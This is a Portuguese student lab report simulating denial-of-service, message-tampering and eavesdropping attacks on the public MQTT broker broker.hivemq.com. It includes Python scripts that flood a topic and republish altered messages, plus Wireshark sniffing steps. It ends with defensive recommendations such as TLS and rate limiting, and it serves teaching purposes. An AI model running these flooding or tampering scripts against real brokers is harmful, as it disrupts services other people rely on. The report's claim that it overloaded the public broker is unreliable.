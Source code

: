 # Relatório Técnico: Simulação de Ataques em Ambiente MQTT
Atividade ponderada realizada pelos alunos Bruno Moitinho Leão, Israel Nunes Lopes Carvalho e Isabela Amado da Rocha
## Introdução
- *Objetivo do teste:* Simular ataques que impactam a confidencialidade, integridade e disponibilidade em um ambiente MQTT.
- *Ferramentas utilizadas:* Cliente MQTT (MQTTool e MQTTX), broker público MQTT (broker.hivemq.com), Wireshark, scripts Python.

## Configuração do Ambiente
- *Broker MQTT:* broker.hivemq.com
- *Port:* 1883
- *Tópicos:* teste/dos, teste/integridade, teste/confidencialidade
- *Procedimento de conexão:* Conexão utilizando clientes MQTT e scripts Python.

## Ataques Simulados

### Ataque Impactando a Disponibilidade: Denial of Service (DoS)

#### Descrição do Ataque
O ataque DoS visa sobrecarregar o broker MQTT com um grande volume de mensagens ou conexões, fazendo com que ele fique indisponível para os usuários.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTTX)
- Broker público MQTT (ex: broker.hivemq.com)
- Script Python para automatizar o envio de mensagens

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para atacar, por exemplo, teste/dos.
3. *Configuração do Script:*
   - Utilize o script Python abaixo para enviar um grande número de mensagens rapidamente.

```python
import paho.mqtt.client as mqtt
import time

broker = "broker.hivemq.com"
port = 1883
topic = "teste/dos"

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")

client = mqtt.Client()
client.on_connect = on_connect

client.connect(broker, port, 60)

client.loop_start()

for i in range(10000):  # Envia 10.000 mensagens
    client.publish(topic, "DoS attack message")
    time.sleep(0.01)  # Intervalo de 10 ms entre mensagens

client.loop_stop()
client.disconnect()
```


4. *Execução do Ataque:*
   - Execute o script Python. Ele enviará um grande número de mensagens para o tópico teste/dos rapidamente.
5. *Resultados Esperados:*
   - O broker MQTT deve ficar sobrecarregado, resultando em indisponibilidade ou lentidão na entrega de mensagens para outros usuários.

### Ataque Impactando a Integridade: Manipulação de Mensagens

#### Descrição do Ataque
O ataque de manipulação de mensagens envolve interceptar e modificar mensagens MQTT antes de serem retransmitidas para o broker.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTTX)
- Broker público MQTT (ex: broker.hivemq.com)
- Script Python para interceptação e modificação de mensagens

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para interceptar, por exemplo, teste/integridade.
3. *Captura de Pacotes:*
   - Use Wireshark para capturar o tráfego MQTT na rede.
4. *Interceptação e Modificação:*
   - Configure um script Python para interceptar e modificar mensagens.

```python
import paho.mqtt.client as mqtt

broker = "broker.hivemq.com"
port = 1883
topic = "teste/integridade"

def on_message(client, userdata, msg):
    modified_message = msg.payload.decode().replace("original", "tampered")
    client.publish(topic, modified_message)

def on_connect(client, userdata, flags, rc):
    print(f"Connected with result code {rc}")
    client.subscribe(topic)

client = mqtt.Client()
client.on_connect = on_connect
client.on_message = on_message

client.connect(broker, port, 60)
client.loop_forever()
```

5. *Execução do Ataque:*
   - Execute o script Python. Ele simulará uma interceptação das mensagens publicadas no tópico teste/integridade, replicará o conteúdo e publicará a mensagem modificada de volta no mesmo tópico.
6. *Resultados Esperados:*
   - As mensagens no tópico teste/integridade serão modificadas, comprometendo a integridade dos dados.

### Ataque Impactando a Confidencialidade: Espionagem

#### Descrição do Ataque
O ataque de espionagem envolve interceptar e ler mensagens MQTT enviadas entre clientes e o broker, violando a confidencialidade das comunicações.

#### Ferramentas Necessárias
- Cliente MQTT (ex: MQTT.fx)
- Broker público MQTT (ex: broker.hivemq.com)
- Ferramenta de captura de pacotes (ex: Wireshark)

#### Passo-a-Passo do Ataque
1. *Conexão com o Broker:*
   - Use o cliente MQTT para conectar ao broker broker.hivemq.com na porta 1883.
2. *Escolha do Tópico:*
   - Escolha um tópico para interceptar, por exemplo, teste/confidencialidade.
   - ![tópico](https://cdn.discordapp.com/attachments/1147673467412545619/1249541075908038727/image.png?ex=6667ad4f&is=66665bcf&hm=ff2132513b36fff027130f1c293fb1043118ec8ed0c99f33420deb78a865ee8f&)
3. *Captura de Pacotes:*
   - Inicie Wireshark e configure para capturar pacotes na interface de rede usada pelo cliente MQTT.
   - Aplique um filtro de captura para o tráfego MQTT: tcp port 1883.
   - ![wireshark](https://cdn.discordapp.com/attachments/1147673467412545619/1249540787209764995/image.png?ex=6667ad0b&is=66665b8b&hm=336ae58bc5cd9dac2dbde506d52e456bf759b23f2204955c2c6ea719727f3a03&)
4. *Análise das Mensagens:*
   - Publique mensagens no tópico teste/confidencialidade usando o cliente MQTT.
   - No Wireshark, localize os pacotes MQTT capturados e examine o conteúdo das mensagens.
   - ![](https://cdn.discordapp.com/attachments/1147673467412545619/1249541002251862098/image.png?ex=6667ad3e&is=66665bbe&hm=d0526161fe6745b99c592148fff641c286fc3125faae9a7833889bd9c67c4a5b&)
5. *Resultados Esperados:*
   - As mensagens enviadas no tópico teste/confidencialidade serão visíveis no Wireshark, demonstrando que a confidencialidade foi comprometida.

## Resultados Obtidos
- *DoS:* Broker ficou sobrecarregado, resultando em indisponibilidade para outros usuários.
- *Manipulação de Mensagens:* Mensagens no tópico foram modificadas, comprometendo a integridade.
- *Espionagem:* Mensagens foram interceptadas e lidas, comprometendo a confidencialidade.

## Conclusões e Recomendações
- *Conclusões:* Os ataques demonstraram vulnerabilidades em termos de disponibilidade, integridade e confidencialidade no ambiente MQTT.
- *Recomendações:* Implementação de TLS/SSL para criptografia, autenticação forte, rate limiting e monitoramento contínuo.

## Anexos
- [Scripts utilizados]("/scripts/")
- Capturas de tela
